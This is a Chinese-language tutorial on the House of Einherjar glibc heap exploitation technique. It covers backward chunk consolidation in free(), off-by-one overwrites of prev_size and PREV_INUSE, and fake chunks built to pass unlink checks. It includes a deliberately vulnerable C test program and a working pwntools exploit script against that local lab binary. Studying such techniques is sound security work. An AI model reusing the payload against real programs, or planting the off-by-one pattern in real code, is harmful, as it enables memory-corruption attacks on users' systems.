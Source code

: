 # House Of Einherjar

## 介绍：

1. house of einherjar 是一种堆利用技术，由 `Hiroki Matsukuma` 提出。该堆利用技术可以强制使得 `malloc` 返回一个几乎任意地址的 chunk 。其主要在于**滥用 `free` 中的后向合并**操作（合并**低地址的 chunk**），从而使得尽可能避免碎片化。
1. 此外，需要注意的是，在一些特殊大小的堆块中，off by one 不仅可以**修改下一个堆块的 prev_size**，还可以修改**下一个堆块的 PREV_INUSE** 比特位。

## 原理

### 向后合并（向低地址）

1. `free` 函数中的后向合并核心操作如下

   ```c
           /* consolidate backward */
           if (!prev_inuse(p)) {
               prevsize = prev_size(p);
               size += prevsize;
               p = chunk_at_offset(p, -((long) prevsize));
               unlink(av, p, bck, fwd);
           }
   ```

   用**当前块的prev_inuse**位来判断前一个已被释放，再通过**prev_size来寻址**到后一个块（低地址），合并后的size就是size+prev_size相加。

   这里借用原作者的一张图片说明：

   ![image-20240724103658904](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407241036999.png)

   

### 利用原理

1. 这里我们就介绍该利用的原理。首先，在之前的堆的介绍中，我们可以知道以下的知识：
   - 两个物理相邻的 chunk 会共享 `prev_size`字段，尤其是当低地址的 chunk 处于使用状态时，高地址的 chunk 的该字段便可以被低地址的 chunk 使用。因此，我们有希望可以通过**写低地址 chunk 覆盖高地址 chunk 的 `prev_size` 字段**。
   - 一个 chunk PREV_INUSE 位标记了其**物理相邻的低地址 chunk 的使用状态**，而且该位是和 prev_size 物理相邻的。
   - 后向合并时，新的 **chunk 的位置取决于 `chunk_at_offset(p, -((long) prevsize))`** 。

### 利用过程

#### 溢出前：

1. 假设溢出前的状态如下：

   ![image-20240724104423044](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407241044143.png)

#### 溢出：

1. 这里我们假设 p0 堆块一方面可以**写 prev_size 字段**，另一方面，存在 off by one 的漏洞，可以**写下一个 chunk 的 PREV_INUSE 部分**，那么：

   ![image-20240724104513965](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407241045078.png)

#### 溢出后：

1. 假设我们将 p1 的 prev_size 字段设置为我们想要的**目的 chunk 位置与 p1 的差值**。在溢出后，我们释放 p1，则我们所得到的新的 chunk 的位置 `chunk_at_offset(p1, -((long) prevsize))` 就是我们想要的 chunk 位置了。

2. 当然，需要注意的是，由于这里会对新的 chunk 进行 unlink ，因此需要确保在对应 chunk 位置构造好了 fake chunk 以便于绕过 unlink 的检测。

   ![image-20240724104642159](C:\Users\BKBQWQ\AppData\Roaming\Typora\typora-user-images\image-20240724104642159.png)



### 利用过程：

1. 可以进行 House Of Einherjar 攻击的代码：

   ```c
   #include <stdio.h>
   #include <stdlib.h>
   #include <unistd.h>
   
   int main(void){
       char* s0 = malloc(0x200);//构造fake chunk
       char* s1 = malloc(0x18);
       char* s2 = malloc(0xf0);
       char* s3 = malloc(0x20);//为了不让s2与top chunk 合并
       printf("begin\n");
       printf("%p\n", s0);
       printf("input s0\n");
       read(0, s0, 0x200); //读入fake chunk
       printf("input s1\n");
       read(0, s1, 0x19); //Off By One
       free(s2);
       return 0;
   }
   ```

2. 攻击脚本：

   ```python
   from pwn import *
   context(os='linux', arch='amd64', log_level='debug')
   
   def debug():
       print(proc.pidof(p))
       pause()
   
   p = process("/home/kali/Desktop/test")
   p.recvuntil("begin\n")
   address = int(p.recvline().strip(), 16)
   p.recvuntil("input s0\n")
   payload = p64(0) + p64(0x101) + p64(address) * 2 + b"A"*0xe0
   '''
   p64(address) * 2是为了绕过
   if (__builtin_expect (FD->bk != P || BK->fd != P, 0))
     malloc_printerr ("corrupted double-linked list");
   '''
   payload += p64(0x100) #fake size
   p.send(payload)
   
   p.recvuntil("input s1\n")
   payload = b"A"*0x10 + p64(0x220) + b"\x00"
   p.send(payload)
   p.recvall()
   p.close()
   ```

3. 结果：

   ![image-20240724111055419](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407241110576.png)

   ![image-20240724111405824](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407241114010.png)

   **注意这里绕过 unlink 检查的方法跟之前利用 unlink 漏洞时采用的方法不一样** ：

   利用 unlink 漏洞的时候：

   ```c
    p->fd = &p-3*4
    p->bk = &p-2*4
   ```

   在这里利用时，因为没有办法找到 `&p` , 所以直接让：

   ```c++
   p->fd = p
   p->bk = p
   ```

   **这里需要注意一个点：** 

   ```py
   payload = p64(0) + p64(0x101) + p64(address) * 2 + "A"*0xe0
   ```

   其实修改为下面这样也是可以的:

   ```py
   payload = p64(0) + p64(0x221) + p64(address) * 2 + "A"*0xe0
   ```

   按照道理来讲 fake chunk 的 size 是 0x221 才合理，但是为什么 0x101 也可以呢？这是因为对 size 和 prev_size 的验证只发生在 unlink 里面，而 unlink 里面是这样验证的：

   ```c
   if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
         malloc_printerr ("corrupted size vs. prev_size");
   ```

   所以只需要再伪造 fake chunk 的 next chunk 的 prev_size 字段就好了。



## 总结

1. 这里我们总结下这个利用技术需要注意的地方：
   - 需要有溢出漏洞可以写物理相邻的**高地址的 prev_size 与 PREV_INUSE** 部分。
   - 我们需要计算**目的 chunk 与 p1 地址之间的差**，所以需要泄漏地址。
   - 我们需要**在目的 chunk 附近构造相应的 fake chunk**，从而绕过 unlink 的检测。





